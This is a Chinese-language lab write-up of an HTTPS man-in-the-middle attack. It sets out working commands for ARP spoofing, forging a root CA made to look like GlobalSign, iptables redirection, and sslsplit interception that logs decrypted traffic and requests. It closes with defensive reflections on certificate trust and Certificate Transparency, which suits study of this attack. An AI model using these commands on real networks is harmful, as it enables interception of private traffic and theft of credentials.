









# 证书伪造与SSLsplit中间人攻击

## 实验环境

- 网络拓扑<br>

- 这一步的前提是已经成功进行中间人流量劫持，获取到了受害者的访问流量
- 这里简单再提一下，使用
    ```bash
    arpspoof -i eth0 -t 192.168.56.20 192.168.56.1
    #告诉受害者，网关的MAC地址是本机MAC地址
    #受害者IP地址 ： 192.168.56.20
    #网关IP地址 ： 192.168.56.1
    ```
    进行arp污染，执行成功后查看ARP表结果图下
    


## 伪造证书


- 生成私钥key文件
    ```bash
    root@attacker:~/ca# openssl genrsa -out ./private/ca.key 2048
    Generating RSA private key, 2048 bit long modulus
    ........................................................................+++
    ..............................+++
    e is 65537 (0x010001)
    ```
- 用刚才生成的key自签名生成公钥证书
    ```bash
    root@attacker:~/ca# openssl req -new -x509 -days 1096 -key ./private/ca.key -out ./newcerts/ca.crt
    You are about to be asked to enter information that will be incorporated
    into your certificate request.
    What you are about to enter is what is called a Distinguished Name or a DN.
    There are quite a few fields but you can leave some blank
    For some fields there will be a default value,
    If you enter '.', the field will be left blank.
    -----
    Country Name (2 letter code) [AU]:BE
    State or Province Name (full name) [Some-State]:
    Locality Name (eg, city) []:
    Organization Name (eg, company) [Internet Widgits Pty Ltd]:GlobalSigN nv-sa
    Organizational Unit Name (eg, section) []:RooT CA
    Common Name (e.g. server FQDN or YOUR name) []:GlobalSign RooT CA
    Email Address []:
    ```

- 按照提示输入CA信息,尽可能让他看起来和某个正常的证书颁发机构类似<br><br>

## SSLsplit

- 在攻击者主机上配置iptables，将通往某些端口的流量转发到工具中
    ```bash
    iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
    iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
    iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
    iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
    iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
    iptables -t nat -A PREROUTING -p tcp --dport 995 -j REDIRECT --to-ports 8443
    ```
- 然后使用SSLsplit执行如下命令
    ```bash
    sslsplit -D -l ./log/connect.log -j ./log/ -S ./log/get_post_dir/ -k ./private/ca.key -c ./newcerts/ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
    #-k 指定私钥key文件，进行欺骗
    #-c 指定Root CA证书文件
    #-D Debug模式，用于输出SSLSplit状态，建议使用时加上
    #-j 指定log目录地址
    #-S 指定-j参数目录下需要记录截断GET、POST请求的子目录地址
    #-l 指定存储的连接信息文件
    #ssl IP 端口 指定ssl需要监听的端口
    #tcp IP 端口 指定tcp需要监听的端口
    ```
    

- 受害者主机访问网站，提示证书未知，禁止访问<br>

- 因为是自己颁发的证书，不在受害者主机火狐浏览器根证书底下，所以不受信任，我们安装自己的证书到靶机的火狐浏览器下,然后就可以正常访问网页了<br>

- 在攻击者主机这边，可以查看到所有明文流量，甚至获取到敏感信息<br>

## 一些思考

- 上述实验进行完，其实看似比较流畅，但中间过程中有一个非常重要的步骤，是很难去避之不谈的--如何让靶机信任你的证书？这个问题同样也是https实现中间人劫持的一个关键。在实验过程中，我是人为在靶机上安装的。在证书这个方面,个人认为,以下几种情况给了我们实现https中间人劫持的可能性
    1. 没有安全意识或者聪明反被聪明误，当浏览器警告证书不信任时，受害者选择忽视强行添加白名单
    2. 受害者在不经意（对证书安装没有意识，别人让干什么就干什么）或者恶意软件主动的情况下，向浏览器安装了伪造证书。

- 对于上述情况，可以得出来一个很简单直接的警示，**一定要保护好本机的证书信任列表**，不要随意相信某个被浏览器警告的证书，因为这两种方法，绕来绕去都绕不过受害者主机上的证书安装操作.

- 一旦机构的私钥泄露,就有可能会有人利用私钥进行中间人攻击时的流量解密,或者--如果是根机构的话--签发自定义的证书,而如果 浏览器/应用软件 中恰好默认信任这个根机构,就会带来一些比较大的影响,所以证书机构或者一些开发组织一定得设计一套比较好的私钥保护措施和泄露应急处理方案

- 另外一种可能就是,证书机构的审查不严格或者权利被滥用,导致一些组织/个人可以拿到"安全"的证书,这些证书在浏览器中不会有任何警告提示,攻击者便可以悄悄地进行中间人攻击流量监控和截取.2011年，DigiNotar证书颁发机构颁发的伪造数字证书被用于攻击约300000个伊朗用户的Gmail账户。2013年末，谷歌发现法国政府伪造了其域名的数字证书，并将其用于实施中间人攻击。这样的例子很多,也导致一些证书机构的信任链渐渐走向破裂.所以我们也不应该盲目相信证书机构.
- 对此专门有个叫做"Certificate Transparency"的项目,用来对监管制约证书颁发机构.项目要求证书颁发机构公开地宣布其颁发的每一个数字证书(将其记录到证书日志中)。证书日志提供给用户一个查找某个给定域名颁发的所有数字证书的途径.证书记录只能被添加，而不能被删除，修改，或者追溯地将数据插入日志。证书日志使用知名的“Merkle Tree Hashes”加密机制来防止被篡改.任何人都可以查询日志，或者验证颁发的数字证书是否已经被合理地记录在了日志之中<br>


- [微软xbox证书泄露事件](https://docs.microsoft.com/en-us/security-updates/SecurityAdvisories/2015/3123040)
- [Xboxlive数字证书私钥泄露，用户或被中间人攻击 - freebuf](https://www.freebuf.com/news/89125.html)
- [如何应对伪造的SSL证书？-freebuf](https://www.freebuf.com/vuls/101479.html)
- [SSL中间人证书攻击测试演练 - freebuf](https://www.freebuf.com/sectool/48016.html)
- [利用ARP欺骗+sslsplit实现ssl连接嗅探 - csdn](https://blog.csdn.net/yxj0201/article/details/76596022)
- [https能防止大家都有公钥情况下的信息窃取吗？能防止中间人攻击吗？ - 知乎](https://www.zhihu.com/question/28776909/answer/42069997)


